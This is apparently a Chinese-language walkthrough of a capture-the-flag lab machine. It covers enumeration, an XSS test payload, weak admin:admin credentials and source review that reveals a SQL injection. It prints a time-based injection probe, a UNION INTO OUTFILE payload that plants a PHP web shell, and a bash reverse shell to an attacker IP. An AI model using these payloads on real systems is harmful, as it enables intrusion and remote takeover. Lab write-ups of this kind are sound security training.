


# 信息收集

## namp


## 30455端口

查看源码，得到一个可以使用的参数


修改之后可以修改页面标题


测试之后发现存在xss漏洞，但好像没有什么用，反弹cookie等待很久也没有任何反应

<script>alert('XSS')</script>   


扫目录发现还有个`phpinfo.php`


`30455`页面的根目录是在`/srv/http`下并且该目录拥有者为`root`


## 50080端口


扫到的目录4下面有一个css文件，其中有版本号，但是该版本查询之后好像也没有什么漏洞


cloud页面存在弱密码`admin:admin`。


登录之后查看其中的文件


`issuetracker.zip`是个maven项目，因为有`pom.xml`，这是一个编译的时候的配置文件，该压缩包其中包含源码


这个源码是17445端口页面的源码，可以通过url路径判断


搜索其中是否存在username or password



成功找到之后去挨个查看java文件，最终在该文件下找到了这个源码

`/issuetracker/src/main/java/com/issue/tracker/issues/issueController.java`

这段代码是要获取`priority`参数，并且使用这个账号密码连接到mysql，然后在数据库中查询，但是没有给出该参数的提交方式


先尝试访问，报405错误说明请求方法错误，更改为POST提交报400错误，说明请求错误


经过多次尝试，提交方法是POST提交，但是提交的内容在GET请求中，根据源码知道参数名称，提交之后可以成功返回200


并且源码中是直接将参数插入到sql语句中，存在sql注入漏洞



源码没有返回值，所以查询在前端是看不到的，包括后面sql注入要执行的恶意代码，是没有回显的，但是可以通过sleep函数测试是否存在注入

```
Normal' and sleep(3)# 
```

加入sleep函数之后回显是有等待的，说明存在注入

既然没有回显那就写入文件，写入一句话木马，加入phpinfo是为了更清楚的知道该页面是否写入成功，通过前面的phpinfo可以知道30455端口的页面是在/srv/http下，并且目录拥有者为root

```
Normal' union select "<?php system($_GET['123']); phpinfo();?>" into outfile '/srv/http/shell1.php'#
```


执行反弹shell命令到攻击机，还是有端口限制，30455可以成功，80不行

```bash
bash -c "bash -i >& /dev/tcp/192.168.45.198/30455 0>&1"
```

